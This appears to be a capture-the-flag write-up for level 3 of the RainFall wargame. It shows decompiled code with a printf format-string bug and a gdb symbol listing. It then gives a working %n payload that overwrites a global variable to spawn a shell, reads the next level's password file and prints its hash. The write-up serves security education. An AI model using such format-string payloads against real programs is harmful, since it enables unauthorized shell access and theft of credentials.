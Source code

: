 ## Step 1: Static analysis

```c
080484a4    uint32_t v()
080484a4    {
080484a4        void var_20c;
080484c7        fgets(&var_20c, 512, stdin);
080484d5        printf(&var_20c);
080484da        uint32_t m_1 = m;
080484da        
080484e2        if (m_1 != 64)
08048519            return m_1;
08048519        
08048507        fwrite("Wait what?!\n", 1, 12, stdout);
08048513        return system("/bin/sh");
080484a4    }
```

```c
0804851a    int32_t main(int32_t argc, char** argv, char** envp)
0804851a    {
0804851a        return v();
0804851a    }
```

```
(gdb) info variables
All defined variables:

Non-debugging symbols:
0x080485f8  _fp_hw
0x080485fc  _IO_stdin_used
0x08048734  __FRAME_END__
...
0x08049884  completed.6159
0x08049888  dtor_idx.6161
0x0804988c  m
(gdb)
```

### Explanation

`v()` reads user input into a buffer (`var_20c`) using `fgets()` and then passes it directly to `printf()`.
This introduces a `format string vulnerability` because `printf()` interprets format specifiers if the input contains them.
The variable `m` (located at `0x0804988c`) is checked. If it equals `64`, the program executes a shell using `system("/bin/sh")`.
If not, it simply returns the value of `m`.

The `printf()` call in `v()` allowing us to write `64` to the memory address of `m` (`0x0804988c`).
1. Begin the payload with the address of `m` (`0x0804988c`) in little-endian format: `\x8c\x98\x04\x08`.
2. Pad the payload with `60` characters to ensure exactly `64` characters are written before `%n`.
3. Use `%4$n` to specify that the 4th argument on the stack (our target address) should receive the value.


## Step 2: Exploit the Binary

```bash
level3@RainFall:~$ python -c 'print "\x08\x04\x98\x8c"[::-1] + ("A" * 60) + "%4$n"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
% cd ../level4
% cat .pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
